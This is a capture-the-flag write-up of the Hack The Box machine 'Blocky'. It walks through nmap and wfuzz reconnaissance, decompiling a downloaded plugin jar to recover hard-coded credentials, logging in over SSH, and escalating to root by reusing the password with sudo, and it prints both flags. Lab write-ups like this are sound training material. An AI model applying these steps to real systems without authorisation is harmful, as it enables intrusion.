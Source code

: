 ![Blocky.PNG](/assets/Machines/Easy/Blocky/Blocky.png)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.10.37
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.10.37
```

**Output**
```bash
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
25565/tcp open  minecraft
```

3. Do virtual hosting (Put ip in **/etc/hosts**) and visit web page

![web.PNG](/assets/Machines/Easy/Blocky/web.PNG)


4. In this case we can watch who user post first publication

![user.PNG](/assets/Machines/Easy/Blocky/user.PNG)

5. Do directory fuzzing with wfuzz
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Blocky]
└─| wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt http://blocky.htb/FUZZ/
```

**Output**
```bash
=====================================================================                                                                  
ID           Response   Lines    Word       Chars       Payload                                                                        
=====================================================================                                                                  
                                                                                                                                       
000000224:   200        0 L      0 W        0 Ch        "wp-content"                                                                   
000000069:   403        11 L     32 W       291 Ch      "icons"                                                                
000000499:   200        37 L     61 W       745 Ch      "plugins"                                                              
000000176:   200        10 L     51 W       380 Ch      "wiki"                                                                 
000000752:   200        200 L    2015 W     40838 Ch    "wp-includes"                                                         
000001011:   403        11 L     32 W       296 Ch      "javascript"                                                          
000006668:   302        0 L      0 W        0 Ch        "wp-admin"                                                             
000010050:   200        25 L     347 W      10304 Ch    "phpmyadmin"
```

6. you can search in all previous directories, in this case the **plugins directory** have important information

![plugins.PNG](/assets/Machines/Easy/Blocky/plugins.PNG)

* Download **BlockyCore.jar**


7. Use `jd-gui` to watch code in **.jar** file (Command to install jd-gui: `apt install jd-gui`)

* Run **jd-gui**
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Blocky]
└─| jd-gui
```

**Output**

![jd-gui.PNG](/assets/Machines/Easy/Blocky/jd-gui.PNG)


* Open **BlockyCore.jar**

![creds.PNG](/assets/Machines/Easy/Blocky/creds.PNG)


8. With this credentials try to login with ssh (In this case use user **Notch**)
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Blocky]
└─| ssh notch@10.10.10.37
```

**Output**
```bash
notch@Blocky:~$ whoami
notch
```

9. Cat **user flag**
```bash
notch@Blocky:~$ cat user.txt 
288ed5ddf4b39a6b4a4d03c460193ac7
```

---
---
---
### **Privileges Escalation** 💀

1. Show groups of current user
```bash
notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

* We stay in sudo group!

2. Login how root, put same password of user **Notch**
```bash
notch@Blocky:~$ sudo su
[sudo] password for notch: 
root@Blocky:/home/notch# whoami
root
```

3. Cat root flag
```bash
root@Blocky:/home/notch# cat /root/root.txt 
3cc207b3457e38cff33d4edc1c3c569az
```